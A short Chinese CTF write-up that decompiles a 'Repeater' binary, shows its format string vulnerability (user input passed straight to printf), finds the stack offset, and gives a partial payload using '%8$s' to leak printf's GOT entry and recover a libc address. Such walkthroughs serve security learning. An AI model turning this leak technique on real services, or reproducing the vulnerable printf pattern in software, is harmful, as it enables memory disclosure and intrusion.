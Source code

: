 >知识点：格式化字符串漏洞

![](image-22.png)

IDA看看
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[257]; // [esp+Fh] [ebp-239h] BYREF
  char format[300]; // [esp+110h] [ebp-138h] BYREF
  unsigned int v5; // [esp+23Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
  puts(
    "Hello,I am a computer Repeater updated.\n"
    "After a lot of machine learning,I know that the essence of man is a reread machine!");
  puts("So I'll answer whatever you say!");
  while ( 1 )
  {
    alarm(3u);
    memset(s, 0, sizeof(s));
    memset(format, 0, sizeof(format));
    printf("Please tell me:");
    read(0, s, 0x100u);
    sprintf(format, "Repeater:%s\n", s);
    if ( strlen(format) > 0x10E )
      break;
    printf(format);
  }
  printf("what you input is really long!");
  exit(0);
}
```
做格式化第一步先计算偏移量
![alt text](image-23.png)
很容易发现偏移量为8
因为这个并没有什么后门函数，所以要自己去泄漏libc地址
```bash
payload = 'A' + p32(printf_got)+ 'B' + '%8$s'
#‘A’  是用来补位的，这样后面的printf函数的got表地址就会在栈上相对距离为8的位置
#‘B’  相当于标记位，下面在接收数据的时候，接收到字符‘B’,后面跟着的就是我们泄露出来的函数地址  
#%8$s  利用格式化字符串漏洞的%8$s去泄露出栈上相对距离为8的地址上的值
```